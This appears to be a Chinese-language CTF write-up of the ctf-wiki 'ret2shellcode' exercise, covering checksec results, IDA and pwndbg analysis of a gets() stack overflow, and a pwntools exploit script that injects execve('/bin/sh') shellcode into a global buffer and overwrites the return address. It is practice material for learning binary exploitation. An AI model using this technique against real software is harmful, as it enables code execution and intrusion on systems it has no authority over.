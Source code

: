 # ret2shellcode

> 出自 https://github.com/ctf-wiki/ctf-wiki 中的Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/hex-16   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2shellcode     (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别

- 使用自行构造的`sh`指令码
- TBD: 无法获取稳定shell，疑似与bbs段没有可执行权限有关，vmmap显示的内容与ctf-wiki上展示的不同

# checksec

- 使用的是从 https://github.com/slimm609/checksec.sh 安装的新版`checksec`

```bash
$ checksec --file=ret2shellcode
RELRO          STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols      FORTIFY Fortified Fortifiable  FILE
Partial RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  79) Symbols    No    0         3            ret2shellcode
$ checksec --version
checksec v2.4.0, Brian Davis, github.com/slimm609/checksec.sh, Dec 2015
Based off checksec v1.5, Tobias Klein, www.trapkit.de, November 2011
```

- 注意没有canary，没有NX（no-execute disabled）即没有禁止执行保护

# IDA Analysis

- IDA显示的main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

- 代码中将输入的字符串`s`复制到了`buf2`中，`buf2`在内存的`.bbs`段，该段存储没有初始化的和初始化为0的全局变量。`.bbs`段相关知识查看https://github.com/hex-16/Markdown_Note/blob/master/%5BProgram%5D_C_Cpp_Python_php_Latex_DataBase/%5Bc%5D_Basis_DataType_Pointer_DataArea_Heap_Stack_BitOperation_bool.md
- IDA中显示的`buf2`存储的区域：

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```



# gdb(pwndbg) Analysis

- 已安装pwndbg

```bash
$ chmod 777 ./ret2shellcode
$ gdb -q ret2shellcode
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ret2shellcode...
pwndbg> b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode

Breakpoint 1, main () at ret2shellcode.c:8
8       ret2shellcode.c: No such file or directory.
......................
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x8049000  0x804a000 r--p     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode
0xf7dca000 0xf7de7000 r--p    1d000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7de7000 0xf7f3c000 r-xp   155000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f3c000 0xf7fac000 r--p    70000 172000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fac000 0xf7fad000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fad000 0xf7faf000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7faf000 0xf7fb1000 rw-p     2000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb1000 0xf7fb3000 rw-p     2000 0
0xf7fcb000 0xf7fcd000 rw-p     2000 0
0xf7fcd000 0xf7fd1000 r--p     4000 0      [vvar]
0xf7fd1000 0xf7fd3000 r-xp     2000 0      [vdso]
0xf7fd3000 0xf7fd4000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd4000 0xf7ff1000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff1000 0xf7ffc000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 28000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

- 注意` 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode`这是`buf2`所在的区域
- 这里和ctf-wiki上显示的不一致，`0x804a000  0x804b000  rw-p`这一段并没有执行(`x`)权限





```c
$ gdb ./ret2shellcode -q
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2shellcode...
pwndbg> b *0x080485AF
Breakpoint 1 at 0x80485af: file ret2shellcode.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode
No system for you this time !!!
abcdabcd123456789

Breakpoint 1, 0x080485af in main () at ret2shellcode.c:15
15      ret2shellcode.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0xffffd3bc ◂— 'abcdabcd123456789'
 EBX  0x0
 ECX  0xf7faf580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0
 ESP  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
 EIP  0x80485af (main+130) —▸ 0xfffe6ce8 ◂— 0x0
────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485af <main+130>    call   strncpy@plt <strncpy@plt>
        dest: 0x804a080 (buf2) ◂— 0x0
        src: 0xffffd3bc ◂— 'abcdabcd123456789'
        n: 0x64

   0x80485b4 <main+135>    mov    dword ptr [esp], 0x8048680
   0x80485bb <main+142>    call   printf@plt <printf@plt>

   0x80485c0 <main+147>    mov    eax, 0
   0x80485c5 <main+152>    leave
   0x80485c6 <main+153>    ret

   0x80485c7               nop             ..............
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
01:0004│      0xffffd3a4 —▸ 0xffffd3bc ◂— 'abcdabcd123456789'
02:0008│      0xffffd3a8 ◂— 0x64 /* 'd' */
03:000c│      0xffffd3ac ◂— 0x0
04:0010│      0xffffd3b0 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x29f3c
05:0014│      0xffffd3b4 —▸ 0xffffd43c —▸ 0xffffd464 ◂— 0x0
06:0018│      0xffffd3b8 ◂— 0x2
07:001c│ eax  0xffffd3bc ◂— 'abcdabcd123456789'
────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0  80485af main+130
   f 1 f7de8e46 __libc_start_main+262
```

- s的地址：`0xffffd3bc`
- `ebp`栈帧基地址：`0xffffd428`,  s相对于`ebp`的偏移为 `0xffffd3bc - 0xffffd428` = `-0x6c`

# Exploit

- 获取的shell不稳定，疑似与前面显示的`0x804a000  0x804b000  rw-p`这一段没有执行(`x`)权限有关

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
context.binary = './ret2shellcode'  # context(os='linux', arch='i386')
print(context)

sh = process('./ret2shellcode')
gdb.attach(sh)
# shellcraft.i386.linux.sh()  #shellcraft.sh()
shellcode = asm(shellcraft.sh())  # type(shellcraft.sh()): str 为汇编代码 # 构造自己的sh汇编码
print("shellcode: ", type(shellcode), shellcode)
buf2_addr = 0x0804A080
payload = shellcode.ljust(0x6c + 4, b'A') + p32(buf2_addr)
sh.sendline(payload)
# b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80AA...A\x80\xa0\x04\x08'
print("sendline: ", type(payload), len(payload), " : ", payload)
sh.interactive()
```





